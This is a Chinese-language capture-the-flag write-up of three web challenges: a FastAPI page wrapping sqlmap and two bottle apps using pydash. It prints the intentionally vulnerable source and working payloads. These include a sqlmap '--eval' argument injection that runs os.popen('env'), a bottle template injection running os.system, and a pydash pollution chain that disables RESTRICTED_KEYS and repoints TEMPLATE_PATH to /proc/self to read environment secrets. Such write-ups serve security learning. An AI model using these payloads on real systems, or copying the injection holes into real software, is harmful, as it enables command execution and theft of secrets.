








sqlmap-master
题目
1from fastapi import FastAPI, Request
2from fastapi.responses import FileResponse, StreamingResponse
3import subprocess
4
5app = FastAPI()
6
7@app.get("/")
8async def index():
9 return FileResponse("index.html")
10
11@app.post("/run")
12async def run(request: Request):
13 data = await request.json()
14 url = data.get("url")
15
16 if not url:
17 return {"error": "URL is required"}
18
19 command = f'sqlmap -u {url} --batch --flush-session'
20
21 def generate():
22 process = subprocess.Popen(
23 command.split(),
24 stdout=subprocess.PIPE,
25 stderr=subprocess.STDOUT,
26 shell=False
27 )
28
29 while True:
30 output = process.stdout.readline()
31 if output == '' and process.poll() is not None:
32 break
33 if output:
34 yield output
35
36 return StreamingResponse(generate(), media_type="text/plain")
其实就是一个网页端的sqlmap
看一下sqlmap的使用文档

可以通过–eval执行python代码，而且有回显
payload
127.0.0.1 --eval=print(__import__("os").popen("env").read())
ez_dash
题目
1'''
2Hints: Flag在环境变量中
3'''
4
5
6from typing import Optional
7
8
9import pydash
10import bottle
11
12
13
14__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
15 '__code__', '__defaults__', '__delattr__', '__dict__',
16 '__dir__', '__doc__', '__eq__', '__format__',
17 '__ge__', '__get__', '__getattribute__',
18 '__gt__', '__hash__', '__init__', '__init_subclass__',
19 '__kwdefaults__', '__le__', '__lt__', '__module__',
20 '__name__', '__ne__', '__new__', '__qualname__',
21 '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
22 '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
23 "Optional","func","render",
24 ]
25__forbidden_name__=[
26 "bottle"
27]
28__forbidden_name__.extend(dir(globals()["__builtins__"]))
29
30def setval(name:str, path:str, value:str)-> Optional[bool]:
31 if name.find("__")>=0: return False
32 for word in __forbidden_name__:
33 if name==word:
34 return False
35 for word in __forbidden_path__:
36 if path.find(word)>=0: return False
37 obj=globals()[name]
38 try:
39 pydash.set_(obj,path,value)
40 except:
41 return False
42 return True
43
44@bottle.post('/setValue')
45def set_value():
46 name = bottle.request.query.get('name')
47 path=bottle.request.json.get('path')
48 if not isinstance(path,str):
49 return "no"
50 if len(name)>6 or len(path)>32:
51 return "no"
52 value=bottle.request.json.get('value')
53 return "yes" if setval(name, path, value) else "no"
54
55@bottle.get('/render')
56def render_template():
57 path=bottle.request.query.get('path')
58 if path.find("{")>=0 or path.find("}")>=0 or path.find(".")>=0:
59 return "Hacker"
60 return bottle.template(path)
61bottle.run(host='0.0.0.0', port=8000)
非预期
bottle的ssti不一定需要{}
payload
<h>
%import os;os.system('whoami')
%end
</h>
ez_dash_revenge
题目
1'''
2Hints: Flag在环境变量中
3'''
4
5
6from typing import Optional
7
8
9import pydash
10import bottle
11
12
13
14__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
15 '__code__', '__defaults__', '__delattr__', '__dict__',
16 '__dir__', '__doc__', '__eq__', '__format__',
17 '__ge__', '__get__', '__getattribute__',
18 '__gt__', '__hash__', '__init__', '__init_subclass__',
19 '__kwdefaults__', '__le__', '__lt__', '__module__',
20 '__name__', '__ne__', '__new__', '__qualname__',
21 '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
22 '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
23 "Optional","render"
24 ]
25__forbidden_name__=[
26 "bottle"
27]
28__forbidden_name__.extend(dir(globals()["__builtins__"]))
29
30def setval(name:str, path:str, value:str)-> Optional[bool]:
31 if name.find("__")>=0: return False
32 for word in __forbidden_name__:
33 if name==word:
34 return False
35 for word in __forbidden_path__:
36 if path.find(word)>=0: return False
37 obj=globals()[name]
38 try:
39 pydash.set_(obj,path,value)
40 except:
41 return False
42 return True
43
44@bottle.post('/setValue')
45def set_value():
46 name = bottle.request.query.get('name')
47 path=bottle.request.json.get('path')
48 if not isinstance(path,str):
49 return "no"
50 if len(name)>6 or len(path)>32:
51 return "no"
52 value=bottle.request.json.get('value')
53 return "yes" if setval(name, path, value) else "no"
54
55@bottle.get('/render')
56def render_template():
57 path=bottle.request.query.get('path')
58 if len(path)>10:
59 return "hacker"
60 blacklist=["{","}",".","%","<",">","_"]
61 for c in path:
62 if c in blacklist:
63 return "hacker"
64 return bottle.template(path)
65bottle.run(host='0.0.0.0', port=8000)
rev修复了非预期
那就是打pydash污染
首先想着先把__forbidden_name__污染掉
?name=setval
{
"path":"__globals__.__forbidden_name__",
"value":""
}

发现no
本地调试一下
可以看到在高版本的pydash中会对path进行检查

如果path中存在__globals__，__builtins__则会返回异常

我们需要先把RESTRICTED_KEYS给污染掉

?name=pydash
{
"path":"helpers.RESTRICTED_KEYS",
"value":""
}

现在就可以污染__forbidden_name__了

污染掉__forbidden_name__之后，我们可以通过对bottle的模板路径进行污染从而实现在render路由进行任意文件读取，因为这题的flag在环境变量中，所以我们直接将TEMPLATE_PATH污染为**/proc/self**

?name=bottle
{
"path":"TEMPLATE_PATH",
"value":["/proc/self/"]
}
接着在/render读环境变量
?path=environ
拿到flag